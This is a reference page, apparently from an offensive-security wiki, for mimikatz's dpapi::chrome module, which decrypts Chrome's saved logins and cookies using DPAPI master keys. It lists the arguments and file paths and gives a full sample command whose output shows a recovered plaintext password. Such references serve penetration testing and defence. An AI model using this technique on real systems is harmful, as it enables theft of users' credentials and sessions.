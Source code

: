 # chrome

`dpapi::chrome` dumps stored credentials and cookies from Chrome. (cf. [dumping DPAPI secrets](https://www.thehacker.recipes/ad-ds/movement/credentials/dumping/dpapi-protected-secrets)) It has the following command line arguments:

* `in`: the `C:\Users\<UserName>\AppData\Local\Google\Chrome\User Data\Default\Login Data` for the saves logins and the `C:\Users<UserName>\AppData\Local\Google\Chrome\User Data\Default\Cookies` for the cookies
* `key`: it is the _**key**_ output value of the `dpapi::masterkey in:"C:\Users\<UserName>\AppData\Roaming\Microsoft\Protect\SID\MasterKey_ID" /rpc`. it is useful for offline dumping of Chrome. CoreSecurity has published an excellent [guide](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz) on how this can be accomplished offline
* `state`: TODO
* `encryptedkey`: TODO
* `/password`: the user's password to use for decryption
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/unprotect`: display the decryption results on screen

```
mimikatz # dpapi::chrome /in:"C:\Users\m3g9tr0n\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * volatile cache: GUID:{5c22983f-77ee-41e4-9086-8073d664e417};KeyHash:850247e2dd89c50536c05bdcee1a56c395e752cf;Key:available
 * masterkey     : 3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
> AES Key is: fd0635bf2e19d76231f649f48f4a90df3de80d3f83aa5ad016b3155fdab37fa2

URL     : https://login.live.com/ ( https://login.live.com/login.srf )
Username: mytestmail@hotmail.com
 * using BCrypt with AES-256-GCM
Password: MySecretPass
```
